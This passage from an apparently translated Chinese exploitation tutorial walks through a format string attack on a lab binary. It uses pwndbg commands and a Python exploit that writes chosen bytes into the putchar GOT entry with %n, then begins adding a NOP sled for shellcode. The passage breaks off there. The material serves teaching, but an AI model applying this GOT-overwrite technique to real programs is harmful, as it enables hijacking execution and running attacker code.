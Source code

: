 ```
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](../images/00121.jpeg)

该值从其先前的值`0x4c443c`更改为`0x564e46`。所以所有字节都增加了 16 个。现在它有 16 个字节长。

22.  现在我们可以尝试将特定地址写入该地址位置。在这里我们可以试着写`ddccbbaa`。为此，更新我们的`exploit.py`如下：

```
#!/usr/bin/python   
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n' 
print w1 + w2 + w3 + w4 + form 
```

这样，我们在每个`%n`之前添加了足够的前导零，以匹配打印字符的总数，并匹配我们计划写入的所需值。此外，总字节数随着每次写入而增加；我们必须为每个值添加 256，以使最后一个字节干净。

23.  现在使用特制的负载执行应用程序，并检查内存位置：

```
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```

![](../images/00122.jpeg)

现在，`putchar@got.plt`指针的值为`0xddccbbaa`，这是我们计划写入的值。

24.  现在，我们可以创建一个模式并将其插入到漏洞中。这将有助于确定可以插入 shell 代码的位置。因此，使用该模式更新我们的漏洞。这将更新脚本，如下所示：

```
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 100 
```